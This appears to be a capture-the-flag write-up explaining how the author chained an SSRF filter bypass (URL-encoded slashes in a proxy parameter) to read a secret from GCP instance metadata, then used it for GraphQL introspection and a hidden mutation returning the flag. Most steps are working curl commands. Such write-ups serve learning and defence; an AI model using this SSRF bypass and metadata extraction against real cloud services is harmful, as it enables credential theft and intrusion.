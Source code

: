 # 🏳️ The Great Juche Jaguar GraphQL Heist

> A deep-dive into a chained SSRF + GraphQL exploitation challenge from the DoD Cyber Sentinel Skills Challenge for Summer 2025. This was a 300-point web exploitation flag that combined cloud metadata abuse, introspection tactics, and endpoint logic failures.

---

## 🧠 Challenge Summary

The Juche Jaguar team exposed a **GraphQL API** behind a misconfigured **proxy endpoint**. By abusing an SSRF vector to access **GCP metadata**, I extracted a secret header, used that to authenticate to the GraphQL service, performed **introspection**, and discovered a hidden **mutation** that returned the final flag.

This was not your typical GraphQL challenge, it chained together multiple real-world vulnerabilities across layers of cloud infrastructure and API logic.

---

## 🧪 Exploit Chain Overview

- ✅ SSRF through `/proxy?url=` to reach internal metadata
- ✅ Extraction of `X-JJ-SECRET` from GCP instance metadata
- ✅ Use of the secret to access the GraphQL endpoint
- ✅ Manual introspection to discover hidden mutation
- ✅ Base64 decoding of response to retrieve flag

---

## 🧾 Step-by-Step Breakdown

### 🕵️‍♀️ 1. Discovering the SSRF Vector

While exploring the application, I noticed that the `/proxy?url=` parameter accepted user-supplied input. Attempting a standard SSRF payload like:

```bash
curl "http://34.86.186.68:8080/proxy?url=http://169.254.169.254/"
```

...was blocked or sanitized. However, encoding the slashes (/) using %2F bypassed the filter:

```bash
curl "http://34.86.186.68:8080/proxy?url=http:%2F%2F169.254.169.254%2F"
```

This subtle bypass allowed full interaction with internal GCP services, including metadata enumeration.
--

### ✨ 2. SSRF to Access GCP Metadata

Used the vulnerable proxy endpoint to access the internal GCP metadata service:

```bash
curl "http://34.86.186.68:8080/proxy?url=http:%2F%2F169.254.169.254%2FcomputeMetadata%2Fv1/" \
  -H "Metadata-Flavor: Google"
```
This revealed the internal attribute: *X-JJ-SECRET*
--

### 🔑 3. Extracting the Secret Header

Then I pulled the value of that attribute directly:

```bash
curl "http://34.86.186.68:8080/proxy?url=http:%2F%2F169.254.169.254%2FcomputeMetadata%2Fv1%2Finstance%2Fattributes%2FX-JJ-SECRET" \
  -H "Metadata-Flavor: Google"
```
✅ Output: *S3NT1N3L*
--

### 🧩 4. GraphQL Introspection

Armed with the secret, I could now access the protected GraphQL endpoint:

```bash
curl http://34.86.186.68:8080/graphql \
  -H "Content-Type: application/json" \
  -H "X-JJ-SECRET: S3NT1N3L" \
  --data '{"query":"{ __schema { mutationType { fields { name } } } }"}'
```
This revealed a hidden mutation: *m309e5336*
--

### 🚨 5. Invoking the Mutation

I triggered the hidden mutation to retrieve the flag:

```bash
curl http://34.86.186.68:8080/graphql \
  -H "Content-Type: application/json" \
  -H "X-JJ-SECRET: S3NT1N3L" \
  --data '{"query":"mutation { m309e5336 }"}'
```
**Encoded response:**

`eyJkYXRhIjp7Im0zMDllNTMzNiI6IkMxe3NzdDFfcjNtMHQzX2MwZDNfeDNjfSJ9fQ==`

**Decoded output:**

```json
{
  "data": {
    "m309e5336": "C1{sst1_r3m0t3_c0d3_x3c}"
  }
}
```
--

### 🏁 Final Flag

`C1{sst1_r3m0t3_c0d3_x3c}`

---

### 🔍 Key Techniques & Learnings
SSRF via query parameter injection

Cloud metadata enumeration (GCP)

Header-based GraphQL authentication

Manual GraphQL introspection with introspection disabled by default

Response decoding and mutation analysis

---

### 🛠 Tools Used
curl for all HTTP interactions

base64 for decoding the response

Manual query crafting

Logical exploitation & metadata awareness

---

### 👩‍💻 About Me
**Brenda Hensley**

🧠 AppSec & OffSec focused

🛡 TryHackMe: Top 5%

🏆 Placed **247th out of ~2200** in the 2025 **DoD Cyber Sentinel Skills Challenge** with 15/23 challenges completed

🔗 [LinkedIn](https://www.linkedin.com/in/brenda-hensley-/) & [Portfolio](https://brendahensley.tech)

## ✨ Fork it. Learn from it. Break things ethically.
